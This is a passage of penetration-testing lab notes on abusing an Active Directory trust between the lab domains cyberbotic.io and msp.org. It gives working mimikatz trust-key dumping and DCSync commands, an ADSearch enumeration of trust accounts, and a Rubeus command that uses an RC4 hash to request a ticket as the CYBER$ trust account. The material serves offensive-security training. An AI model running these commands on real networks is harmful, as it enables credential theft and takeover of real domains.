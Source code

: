     run hostname

    getuid

    mimikatz lsadump::trust /patch

NOTE: This performs memory patching, which is very risky, particularly on a domain controller.    

The second is to use DCSync with the TDO's GUID.

    powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid

    mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}****

[Out] and [Out-1] are the "new" and "old" passwords respectively (they're the same here because 30 days hasn't elapsed since the creation of the trust).  In most cases, the current [Out] key is the one you want.  In addition, there is also a "trust account" which is created in the "trusted" domain, with the name of the "trusting" domain.  For instance, if we get all the user accounts in the DEV domain, we'll see CYBER$ and STUDIO$, which are the trust accounts for those respective domain trusts.
    
    execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"

This means that the MSP domain will have a trust account called CYBER$, even though we can't enumerate across the trust to confirm it.  This is the account we must impersonate to request Kerberos tickets across the trust.

    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:CYBER$ /domain:msp.org /rc4:f3fc2312d9d1f80b78e67d55d41ad496 /nowrap

NOTE: Remember that RC4 tickets are used by default across trusts.

This TGT can now be used to interact with the domain.

    run klist

    powershell Get-Domain -Domain msp.org

This account is obviously not a domain admin, but there are multiple abuse primitives that can now be performed across the trust to elevate privileges - including kerberoasting, ASREPRoasting, RBCD, and vulnerable certificate templates.

- As a challenge, try and find a way to get DA in this forest.





































